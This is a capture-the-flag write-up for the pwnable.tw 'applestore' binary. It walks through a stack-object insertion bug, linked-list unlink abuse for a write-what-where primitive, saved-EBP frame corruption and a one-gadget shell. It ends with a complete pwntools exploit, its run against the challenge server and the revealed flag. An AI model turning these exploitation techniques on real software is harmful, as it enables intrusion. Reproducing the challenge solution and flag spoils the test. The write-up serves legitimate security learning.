


applestore: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=35f3890fc458c22154fbc1d65e9108a6c8738111, not stripped


CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial


## Intro
The program allows us to perform several actions.


=== Menu ===
1: Apple Store
2: Add into your shopping cart
3: Remove from your shopping cart
4: List your shopping cart
5: Checkout
6: Exit


You can add different types of apple devices to a shopping cart, and each of them has its own associated price.


> 1
=== Device List ===
1: iPhone 6 - $199
2: iPhone 6 Plus - $299
3: iPad Air 2 - $499
4: iPad Mini 3 - $399
5: iPod Touch - $199


The devices in the cart are represented as item objects that are maintined in a doubly-linked list on the heap.

Item objects are defined using the following struct:

When devices are added to the shopping cart, the typical flow that happens is the `insert()` function is called, which adds the heap chunk associated with the new item, to the end of the doubly-linked list.

However, in the `checkout()` function, this behavior is different.

## Vulnerability
In the `checkout()` function, we can see that the items in our cart are added up, and the total is calculated.
If the total is $7174, then an extra iPhone 8 device is added to our cart. 

We can write a small z3 script to find which combination of apple devices we can purchase that will add up to this total.


#!/usr/bin/python
import sys
import string
from z3 import *

w = BitVec('w',32)
x = BitVec('x',32)
y = BitVec('y',32)
z = BitVec('z',32)

s = Solver()

s.add(w >= 0)
s.add(w < 20)
s.add(x >= 0)
s.add(x < 20)
s.add(y >= 0)
s.add(y < 20)
s.add(z >= 0)
s.add(z < 20)

s.add(199*w+299*x+399*y+499*z == 7174)

print s.check()
print s.model()



➜  applestore python findSubsets.py 
sat
[x = 15, y = 1, z = 1, w = 9]


Again, if the total is $7174, then an extra iPhone 8 device is added to our cart.

**However, when this happens, instead of inserting a heap chunk to the end of the doubly-linked list, an address on the stack containing a pointer to the heap chunk where the "iPhone 8" string is stored, is inserted.**


int checkout()
{
  int total; // [sp+10h] [bp-28h]@1
  char *ptr_to_iphone_8; // [sp+18h] [bp-20h]@2
  int v3; // [sp+1Ch] [bp-1Ch]@2
  int v4; // [sp+2Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  total = cart();
  if ( total == 0x1C06 )
  {
    puts("*: iPhone 8 - $1");
    asprintf(&ptr_to_iphone_8, "%s", "iPhone 8");
    v3 = 1;
    insert((int)&ptr_to_iphone_8);
    total = 0x1C07;
  }
  printf("Total: $%d\n", total);
  puts("Want to checkout? Maybe next time!");
  return *MK_FP(__GS__, 20) ^ v4;
}



0x9683840:      0x09683860      0x09683810      0x00000000      0x00000011
0x9683850:      0x6f685069      0x3620656e      0x00000000      0x00000019
0x9683860:      0x096838f0      0x000001f3      0x09683888      0x09683838
0x9683870:      0x00000018      0x00000011      0x6f685069      0x3620656e
0x9683880:      0x00000000      0x00000019      0x096838a0      0x0000018f 
0x9683890:      0xffe04b38      0x09683860      0x00000000      0x00000011 
                ^ last_item->next = stack addr ptr 

iPhone object written to the stack:
gdb-peda$ telescope 0xffe04b38
0000| 0xffe04b38 --> 0x96838b0 ("iPhone 8")                  <-- string pointer
0004| 0xffe04b3c --> 0x1                                     <-- size
0008| 0xffe04b40 --> 0xffe04b76 --> 0xb6000a35               <-- next ptr
0012| 0xffe04b44 --> 0x9683888 --> 0x96838a0 ("iPad Mini 3") <-- prev pointer


** This gives us an arbitrary read primitive the next time `cart()` is called, as we can also add extra data to a buffer on the stack which overlaps with `0xffe04b38` thanks to `my_read()` which unnecssarily reads `0x15` bytes into a stack buffer everytime it is called!**

After the next `my_read()` call, our iPhone object on the stack now looks like this.

gdb-peda$ telescope 0xffe04b38
0000| 0xffe04b38 --> 0xf763dc00 (fisub  WORD PTR [esi-0x77])         
0004| 0xffe04b3c --> 0xf763b060 (<atoi+16>:     add    esp,0x1c)     
0008| 0xffe04b40 --> 0xffc1dde6 --> 0x8048834 (<create+80>:     ret) <-- we get to control data in 0xffc1dde6
0012| 0xffe04b44 --> 0x0                                             


**Because we can control the data that is written to `0xffc1dde6`, which is perceived as `iPhone_8->next`, we can also leak whatever addresses we want by putting our target pointers there!**

Additionally, we can directly control the data written to `0xffe04b38`, as another leak vector. 


gdb-peda$ telescope 0xffe04b38
0000| 0xffe04b38 --> 0x804b040 --> 0xf7576050 (<atoi>:  sub    esp,0x10)
0004| 0xffe04b3c ("AAAA\230¶°ÿ°¶°ÿ\n")
0008| 0xffe04b40 --> 0xffb0b698 --> 0x800 
0012| 0xffe04b44 --> 0xffb0b6b0 --> 0x0   


We use these leaking abilities to first leak libc, and then a stack address which we will use next to get code exec. 

## EIP Control
Now that we have some leaks to work with, we need to figure out how to control EIP.

When an item is deleted from the cart, it is unlinked from the doubly-linked list of cart items.
We can abuse this, and the fact that our iPhone 8 object is placed on the stack in a controllable location, to eventually control EIP. 

while ( next_item_ptr )
{
    if ( index == choice )
    {
        next_item = *(_DWORD *)(next_item_ptr + 8);
        prev_item = *(_DWORD *)(next_item_ptr + 12);
        if ( prev_item )
            *(_DWORD *)(prev_item + 8) = next_item;
        if ( next_item )
            *(_DWORD *)(next_item + 12) = prev_item;
        printf("Remove %d:%s from your shopping cart.\n", index, *(_DWORD *)next_item_ptr);
        return *MK_FP(__GS__, 20) ^ cookie;
    }       
    ++index;
    next_item_ptr = *(_DWORD *)(next_item_ptr + 8);
}


**We can leverage the writes and the fact that we can control the `prev_item` and `next_item` pointers to gain a write-what-where primitive.**

Unfortunately, we can't just write the address of `system@libc` to `prev_item+0x8`, because the unlinking process will also attempt to write to `system@libc+0xc` when libc is `r-x`, causing an access violation.

**Therefore, we can only overwrite an address from a writeable section, with an address from another writeable section.**

In my exploit, I overwrote the saved EBP to perform frame corruption.
Essentially how this will work is, from the `delete()` function/stack frame, we will overwrite the saved EBP in `handler()`'s stack frame, NOT the saved EBP in `delete()`'s stack frame. We will overwrite it with another address on the stack that we control. 

At this stack location, we will setup a fake stack frame, 
With all this setup, let's examine what will happen when we exit the `handler()` function.

In the function epilogue, we see it does the following.

handler+B3                   leave
handler+B4                   retn
handler+B4   handler         endp


When `leave` is executed, it will perform  the instructions, `mov esp, ebp; pop ebp`.

**This will pop the address of the fake stack frame into EBP!**

Next, it will return to the function epilogue of the `main()` function 


main+4A                   call    handler
main+4F                   leave
main+50                   retn
main+50   main            endp


We can see that `leave` is executed again, and when `mov esp, ebp` is executed, **it will set our stack to the location of our fake stack frame!** 
**Then it will pop the first DWORD off the stack into EBP, and pop the next DWORD off the stack into EIP, giving us control of EIP!**

In my exploit, I chose to return to a "magic" address, or a one-gadget-rce address, since at the time we control EIP, `eax == NULL` and `esi` is set to an address located in the `rw-p` area of libc, satisfying its constraints.


➜  applestore one_gadget ./libc_32.so.6 
0x3a819 execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the address of `rw-p` area of libc
  [esp+0x34] == NULL

0x5f065 execl("/bin/sh", eax)
constraints:
  esi is the address of `rw-p` area of libc
  eax == NULL

0x5f066 execl("/bin/sh", [esp])
constraints:
  esi is the address of `rw-p` area of libc
  [esp] == NULL


With everything setup, our `handler()` frame should look something like this before we gain code execution:

0100| 0xffb0b694 --> 0x41366918 
0104| 0xffb0b698 ("AAAAe\200Z÷") <-- fake stack frame starts here!
0108| 0xffb0b69c --> 0xf75a8065 (<_IO_proc_open+757>:   push   eax)
0112| 0xffb0b6a0 ('A' <repeats 11 times>)
0116| 0xffb0b6a4 ("AAAAAAA")
0120| 0xffb0b6a8 --> 0x414141 ('AAA')
0124| 0xffb0b6ac --> 0xd2b93300 
0128| 0xffb0b6b0 --> 0x0 
0132| 0xffb0b6b4 --> 0xf766c035 (add    ebx,0x3dc6b)
0136| 0xffb0b6b8 --> 0xffb0b698 ("AAAAe\200Z÷") <-- overwritten saved EBP 
0140| 0xffb0b6bc --> 0x8048cf5 (<main+79>: leave) <-- normal saved EIP
0144| 0xffb0b6c0 --> 0x804b068 --> 0x0 
0148| 0xffb0b6c4 --> 0x0 
0152| 0xffb0b6c8 --> 0x10 
0156| 0xffb0b6cc --> 0x0 
0160| 0xffb0b6d0 --> 0xf76f9000 --> 0x1afdb0 
0164| 0xffb0b6d4 --> 0xf76f9000 --> 0x1afdb0 
0168| 0xffb0b6d8 --> 0x0 
0172| 0xffb0b6dc --> 0xf7561637 (<__libc_start_main+247>:       add    esp,0x10)
0176| 0xffb0b6e0 --> 0x1 
0180| 0xffb0b6e4 --> 0xffb0b774 --> 0xffb0bf76 ("/home/vagrant/CTFs/pwnable.tw/applestore/applestore")
0184| 0xffb0b6e8 --> 0xffb0b77c --> 0xffb0bfaa ("LD_PRELOAD=./libc_32.so.6")
0188| 0xffb0b6ec --> 0x0 
0192| 0xffb0b6f0 --> 0x0 
0196| 0xffb0b6f4 --> 0x0 


Putting everything together, we are able to get a shell using the following exploit.

## Exploit

#!/usr/bin/env python

from pwn import *
import sys

def list_devices():
    r.send("1")
    r.recvuntil(">")

def add(item):
    r.sendline("2")
    r.recvuntil(">")
    r.sendline(str(item))
    r.recvuntil(">")

def checkout():
    r.sendline("5")
    r.recvuntil(">")
    r.sendline("y")
    r.recvuntil(">")

def delete(index):
    r.sendline("3")
    r.recvuntil(">")
    r.sendline(str(index))
    r.recvuntil(">")

def list_cart(a="", b=""):
    r.send("4"+a)
    r.recvuntil(">")
    r.sendline("y"+b)
    return r.recvuntil(">")

def z(x):
    return x&0xffffffff

def exit(one_gadget_rce):
    fake_frame  = "AAAAA"
    fake_frame += p32(z(one_gadget_rce))
    fake_frame += "A"*11 
    r.send("6"+fake_frame) 

def exploit(r):
    e = ELF('./applestore')

    r.recvuntil(">")
    '''
    1: iPhone 6 - $199
    2: iPhone 6 Plus - $299
    3: iPad Air 2 - $499
    4: iPad Mini 3 - $399
    5: iPod Touch - $199
    '''
    # if total = $7174, insert iPhone 8
    # >>> 299*15+199*9+399+499
    # 7174
    
    ## SET TOTAL = $7174 ##
    for i in range(15):
        add(2)
    for i in range(9):
        add(1)
    add(3)
    add(4)

    ## GET IPHONE 8 ##    
    checkout()
   
    #"0x8048834 is arbitrary addr that will be read when the first dword in fake item->next is printed!
    libc_leak = int(list_cart(a="\x88\x04\x08"+"\x00"*11)[626:636]) #\x00's are needed to set item->next->next = NULL
    libc_base = libc_leak-0x2d060
    one_gadget_rce = libc_base+0x5f065 # 0x5f065 execl("/bin/sh", eax)  

    log.success("libc leak found at: "+hex(z(libc_leak)))
    log.success("libc base found at: "+hex(z(libc_base)))

    ## LEAK STACK & CALCULATE FAKE_FRAME, SAVED EBP IN HANDLER() FRAME ##
    heap_leak = u32(list_cart(b="A"+p32(0x804b070)+"\x00"*11)[611:615]) # myCart+0x8
    stack_leak = u32(list_cart(b="A"+p32(heap_leak+0x480)+"\x00"*11)[611:615]) # stackaddr where old "iPhone 8" string was stored     
    fake_frame = stack_leak+0x40
    saved_ebp_target = stack_leak+0x60 # saved ebp of handler() frame that will be overwritten w/fake_frame

    log.success("heap chunk found at: "+hex(z(heap_leak))) 
    log.success("stack leak found at: "+hex(z(stack_leak)))
    log.success("saved_ebp_target at: "+hex(z(saved_ebp_target))) 
    log.success("fake_frame at: "+hex(z(fake_frame))) 
    
    ## CORRUPT SAVED EBP IN HANDLER() FRAME ##
    payload  = p32(e.got['atoi']) # arbitrary address that can be read from
    payload += "AAAA"
    payload += p32(fake_frame)
    payload += p32(saved_ebp_target-0x8) 
    delete("27"+payload)
    
    ## RET-2-ONE_GADGET_RCE ## 
    exit(one_gadget_rce)
    
    #pause()
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/pwnable.tw/applestore/applestore'], env={"LD_PRELOAD":"./libc_32.so.6"})
        print util.proc.pidof(r)
        pause()
        exploit(r)



➜  applestore python solve.py chall.pwnable.tw 10104
[*] For remote: solve.py HOST PORT
[+] Opening connection to chall.pwnable.tw on port 10104: Done
[*] '/home/vagrant/CTFs/pwnable.tw/applestore/applestore'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
[+] libc leak found at: 0xf7591060
[+] libc base found at: 0xf7564000
[+] heap chunk found at: 0x923d010
[+] stack leak found at: 0xff8674e8
[+] saved_ebp_target at: 0xff867548
[+] fake_frame at: 0xff867528
[*] Switching to interactive mode
 $ id
uid=1000(applestore) gid=1000(applestore) groups=1000(applestore)
$ cat /home/applestore/flag
FLAG{I_th1nk_th4t_you_c4n_jB_1n_1ph0n3_8}


